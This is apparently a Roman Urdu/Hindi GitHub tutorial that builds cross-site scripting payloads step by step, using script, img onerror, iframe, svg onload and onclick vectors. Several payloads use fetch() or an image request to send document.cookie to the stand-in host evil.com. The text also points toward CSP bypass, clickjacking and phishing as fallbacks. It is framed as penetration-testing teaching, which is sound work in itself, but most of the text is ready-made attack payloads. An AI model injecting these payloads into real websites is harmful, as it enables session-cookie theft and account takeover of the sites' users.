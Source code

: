 # 💣 XSS Payload Banana – Step by Step

🔹 Step 1: Start karo <script> tag se

Yeh browser ko batata hai ke ab JavaScript chalne wali hai.

**<script>**

🔹 Step 2: JavaScript code likho uske andar

Sabse simple payload hota hai **alert('XSS')** — isse popup aata hai.

**<script>
alert('XSS');
</script>**

🔹 Step 3: End karo </script> se

Yeh batata hai ke JavaScript ka block khatam ho gaya.

---

### ✅ Final Payload:

**<script>alert('XSS');</script>**

---

### 🔥 Advanced Payload Example:

Agar tum cookie nikalna chahte ho:

**<script>
fetch("https://evil.com/steal?c=" + document.cookie);
</script>**

Yahan:

document.cookie → user ki cookie le raha hai

fetch() → us cookie ko attacker ki site par bhej raha hai

---

### ⚠️ Bonus Tip:

Kayi websites <script> block karti hain. Tab tum alternate technique use karte ho:

**<img src=x onerror=alert('XSS')>**

Yahan:

**<img>** toh allow hai

**onerror** JavaScript chala deta hai jab image load na ho

# 🔰 1. <img> tag ke saath XSS Payload

**<img src="x" onerror="alert('XSS')">**

### ✅ Kya ho raha hai?

**src="x"** → image load nhi ho paayi

**onerror="..."** → jab error aaya toh JavaScript chali

Isme " quotes use hue hain attribute values ke liye

Aur 'XSS' single quotes alert ke message mein

---

### 🔰 2. <iframe> tag ke saath XSS Payload

**<iframe src="javascript:alert('XSS')"></iframe>**

Kuch browsers allow nhi karte, lekin testing ke liye useful hai

---

### 🔰 3. <svg> + onload

**<svg onload="alert('XSS')"></svg>**

svg graphics ke liye hota hai, lekin onload ke through JavaScript chala sakte ho

---

### 🔰 4. Anchor Tag <a> with onclick

**<a href="#" onclick="alert('XSS')">Click me</a>**

Jab banda is link pe click kare, XSS payload trigger hoga

---

## 📌 "Double Quotes" aur 'Single Quotes' ka use:

Situation	Use

HTML attribute ke liye	"..." double quotes

JavaScript string ke liye	'...' single quotes ya double bhi chal jaata hai


Example:

```<img src="x" onerror="alert('Hello')">```

---

**"x"** → image path

---

**onerror="alert('Hello')"** → **outer quotes "..."** (HTML)

inner 'Hello' → (JavaScript)

---

### 📌 + ka use kab hota hai?

**+** ka use hota hai string concatenate karne ke liye JavaScript mein.
Matlab, do cheezein jorna.

Example:

**<script>
  fetch("https://evil.com/steal?cookie=" + document.cookie);
</script>**

**"https://..."** ek string hai

**document.cookie** second part

**+** dono ko jod raha hai

### Result: **https://evil.com/steal?cookie=abc123xyz** (cookie wali URL ban gayi)

---

### ✅ Real-World Example: Pure HTML Based XSS (no <script>)

```<img src="x" onerror="fetch('https://evil.com?c='+document.cookie)">```

---


### Agar website ne JavaScript ko block kar diya ho (ya CSP lagi ho), toh...

⚠️ Toh phir yeh sab payloads jaise:

**<script>alert(1)</script>**

```**<img src=x onerror=alert(1)>**```

---

```<svg onload=alert(1)>```

---

**<iframe src="javascript:alert(1)">**

kaam nahi karein ge ya blocked ho jaayenge ❌

### 🔐 Agar JavaScript block hai toh kya karein?

Acha sawal! Hacker kya karta hai?

✅ Kuch Alternate Attacks:

🖼️ Image-based exfiltration

**Kaise:** ```<img src="https://evil.com/steal?c=XYZ">```

---

agar allowed ho

---

🧱 Clickjacking / Phishing

**Kaise:** Form, fake button ya CSS-based UI banake

---

💉 HTML injection

**Kaise:**	Sirf HTML elements inject karne ki koshish

---

🧙‍♂️ DOM-based CSP bypass	

**Kaise:** Agar CSP weak ho, toh usko manipulate karna with script-src-elem

---

### ✅ Penetration Testing Tip:

Tumhara goal ye hona chahiye:

"Check karo JavaScript allowed hai ya nahi? Agar hai toh full XSS payload inject karo. Agar nahi, toh alternate methods try karo — ya CSP bypass check karo."




